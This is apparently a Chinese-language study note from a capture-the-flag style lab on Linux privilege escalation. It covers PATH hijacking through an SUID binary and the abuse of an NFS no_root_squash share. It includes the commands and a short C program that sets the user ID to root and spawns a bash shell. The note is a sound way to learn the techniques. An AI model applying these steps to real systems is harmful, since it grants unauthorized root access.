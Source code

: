 还有一个思路就是我们在一个有写入权限的路径下放入我们的恶意脚本，之后我们把这个路径去添加进PATH就可以
比如把`/tmp` 添加进PATH
```shell
export PATH=/tmp:$PATH
```

首先我们先查看一下有没有设置了SUID位的文件
```shell
find / -type f -perm -04000 -ls 2>/dev/null
```
发现了一个test文件：
![Pasted image 20240921163609.png](/img/user/picture/Pasted%20image%2020240921163609.png)
可以知道他是去运行一个thm文件

我们在`/tmp`文件夹下创建thm文件
![Pasted image 20240921163832.png](/img/user/picture/Pasted%20image%2020240921163832.png)

之后运行一下test
(有一个小插曲，就是bash路径错了，之后改一下就可以了)
![Pasted image 20240921164105.png](/img/user/picture/Pasted%20image%2020240921164105.png)

拿到root






# NFS

NFS（网络文件共享）配置保存在 /etc/exports 文件中。该文件是在 NFS 服务器安装期间创建的，通常可供用户读取。

示例：
![Pasted image 20240921195512.png](/img/user/picture/Pasted%20image%2020240921195512.png)
此权限升级向量的关键元素是您在上面看到的“no_root_squash”选项。默认情况下，NFS 会将 root 用户更改为 nfsnobody，并禁止以 root 权限操作任何文件。如果可写共享上存在“no_root_squash”选项，**我们可以创建一个设置了 SUID 位的可执行文件并在目标系统上运行它。**

这种漏洞的思路是在本机上有root的SUID可执行恶意文件上传到对方的共享文件夹中，这样用低权限的用户运行恶意文件就可以获得到root权限


**靶场练习：**

首先查看一下`/etc/exports `文件
![Pasted image 20240921200110.png](/img/user/picture/Pasted%20image%2020240921200110.png)

注意到有三个共享文件夹，我们使用第二个`/tmp`


之后我们将其挂在到本地来
![Pasted image 20240921201110.png](/img/user/picture/Pasted%20image%2020240921201110.png)
```shell
mount -o rw 10.10.205.131:/tmp /root/tmp
```

编写恶意文件，注意权限为root
![Pasted image 20240921201501.png](/img/user/picture/Pasted%20image%2020240921201501.png)
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```